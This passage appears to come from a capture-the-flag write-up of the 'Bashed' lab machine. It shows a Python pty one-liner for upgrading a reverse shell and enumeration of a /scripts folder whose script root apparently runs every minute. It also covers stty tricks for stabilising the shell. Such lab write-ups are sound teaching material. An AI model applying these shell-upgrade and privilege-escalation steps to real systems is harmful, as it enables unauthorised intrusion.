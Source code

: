 ```bash
python --version
Python 2.7.12
python -c 'import pty;pty.spawn("/bin/bash")'
scriptmanager@bashed:/$
```

## Scripts Folder
Started by checking out the file structure and found the 'scripts' folder almost immediately. Looks like a file within can be manipulated by this 'scriptmanager' user:
```bash
scriptmanager@bashed:/$ ls
ls
bin   etc         lib         media  proc  sbin     sys  var
boot  home        lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv      usr
scriptmanager@bashed:/$ ls -al /scripts
ls -al /scripts
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2 07:19 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 27 10:04 test.txt
scriptmanager@bashed:/$
```

Cat'd out the contents of these two files. Noted that the last modified date was changing every minute, indicating this .py gets run on a schedule (Every minute)
```bash
testing 123!scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2 07:19 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 27 10:08 test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ ls -al  
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2 07:19 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 27 10:09 test.txt
```

I was pulling my hair out because nano was typing out gibberish as I was trying to edit the .py file. After some research I tried to turn off the stty 'echo' via the guidance in this [Link](https://stackoverflow.com/questions/22832933/what-does-stty-raw-echo-do-on-os-x).
Hit CTRL+Z to suspend the reverse shell, input the following, then fg'd the reverse shell back into the foreground. Did some testing in Nano and it seemed to be behaving much better.
```
stty raw -echo
```
